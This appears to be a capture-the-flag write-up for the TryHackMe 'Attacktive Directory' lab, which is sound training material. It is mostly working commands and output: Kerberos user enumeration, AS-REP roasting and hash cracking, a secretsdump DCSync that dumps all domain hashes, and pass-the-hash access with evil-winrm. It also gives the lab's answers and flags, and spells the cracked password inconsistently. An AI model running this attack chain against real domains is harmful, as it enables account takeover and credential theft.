 Attacktive Directory
---------------------

1. kerbrute: enumerate email from users list
```bash
kerbrute userenum --dc $domain-controller -d THM-AD users.txt 
```
resultes:
========
```
2025/08/31 21:44:57 >  [+] VALID USERNAME:	 svc-admin@THM-AD
2025/08/31 21:44:57 >  [+] VALID USERNAME:	 administrator@THM-AD
2025/08/31 21:44:57 >  [+] VALID USERNAME:	 backup@THM-AD
```


2. GetNPUsers.py  
================
ASREProast: 
- retrieve domain users who have "Do not require Kerberos preauthentication" set and ask for their TGTs without knowing their passwords.
- It is then possible to attempt to crack the session key sent along the ticket to retrieve the user password

```bash
python3.9 /opt/impacket/examples/GetNPUsers.py THM-AD/svc-admin -no-pass -dc-ip 10.10.35.127
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
```
results: AS-REP hash
```bash
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@THM-AD:32aa00a5b37bc94b5f4c179f1cb5e2cd$65ede1650a44eecb2ca136fbf3091c54c36a93fdb933c2987b3306273cd35b5a84709bea4900a426e95e634c151b463e6c6f2a9b27c883d9721e6898a4c15b69c35c20d0d40056ed3511e18455e98584d1488c559347735179e52bc2f44ce47867950e809eab4be28ff8550dc0bdc5d1caa26dc2bbeb973063b7db08faf7554b2eb3a251aab4f7354c5231bd344a1eb4ba4d4a371a2638afa7e2b1260e2e0c57a0d2d0cc3a23b09c91a77d618ef878c6344490dcc699a85a794659bfa38601e06e48ead86429e39e4bd39712d7362d6095a2d4ca443a4e6a0ba2d47b8a2fcbcaa5687eebc7e86be3c4
```
- This is a [Kerberos 5 AS-REP etype 23], which is encrypted with RC4-HMAC, meaning it's effectively using the NT hash of the user's password. 

```bash
echo '$krb5asrep$23$svc-admin@THM-AD:32aa00a5b37bc94b5f4c179f1cb5e2cd$65ede1650a44eecb2ca136fbf3091c54c36a93fdb933c2987b3306273cd35b5a84709bea4900a426e95e634c151b463e6c6f2a9b27c883d9721e6898a4c15b69c35c20d0d40056ed3511e18455e98584d1488c559347735179e52bc2f44ce47867950e809eab4be28ff8550dc0bdc5d1caa26dc2bbeb973063b7db08faf7554b2eb3a251aab4f7354c5231bd344a1eb4ba4d4a371a2638afa7e2b1260e2e0c57a0d2d0cc3a23b09c91a77d618ef878c6344490dcc699a85a794659bfa38601e06e48ead86429e39e4bd39712d7362d6095a2d4ca443a4e6a0ba2d47b8a2fcbcaa5687eebc7e86be3c4' > asrep_hash.txt
```

```bash
john asrep_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep
```
```bash
john asrep_hash.txt --show
```
- results: `mangement2005`

or use hashcat instead -- https://hashcat.net/wiki/doku.php?id=example_hashes -- search as-pre
```bash
hashcat -m 18200 asrep_hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
hashcat --show -m 18200 asrep_hash.txt
```






## Enumerating share with the new credintials
smbclient -L 10.10.255.240 -U svc-admin 
> management2005
```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

foung backup_credentials file at backup
```
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```
```bash
cat backup_credentials.txt | base64 -d
backup@spookysec.local:backup2517860
```

## NTDS.DIT FILE
```bash
secretsdump.py spookysec.local/backup:backup2517860@10.10.255.240
```
```bash
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets

Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:d66cbb47d8d50c99fb1a23e030e06c6f:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:7f4065d5816cad32cb749676d56a5985ce5e6b0c68e57b2d7957f8f33f84034e
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:ead7dd1b4d9e9bb3489c5b9803fd6f15
ATTACKTIVEDIREC$:des-cbc-md5:4ca2cec84c40ba15
[*] Cleaning up... 
```

## Gain Access using Evil-winrm

secretsdump.py Administrator:@10.10.255.240 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc


## Administrator `LM:NTLMv1` hash

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

```bash
evil-winrm -u Administrator -H aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc -i 10.10.255.240
```

```bash
crackmapexec winrm 10.10.35.127 -u svc-admin -p 'management2005'
```


## Evil-winrm Access as administrator using hash
```bash
evil-winrm -i 10.10.163.232 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
``` 


## Questions:
- 18200
- 3
- backup
- YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYwCg==
- backup@spookysec.local:backup2517860

- dcsync


svc-admin
- TryHackMe{K3rb3r0s_Pr3_4uth}


backup
- TryHackMe{B4ckM3UpSc0tty!}

administrator: root.txt
- TryHackMe{4ctiveD1rectoryM4st3r}

-------------------------------
video 

kerbrute -> get user svc-admin -> as-rep got svc-admin tgt and cracked to get the password `mangement2005` -> enumerate shares - download backup data from share called backup have credintials for backup account `backup@spookysec.local:backup2517860`  -> dump data using secertdump.py to get administrator LM:NTLMv1 hash -> evil-winrm -i 10.10.163.232 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
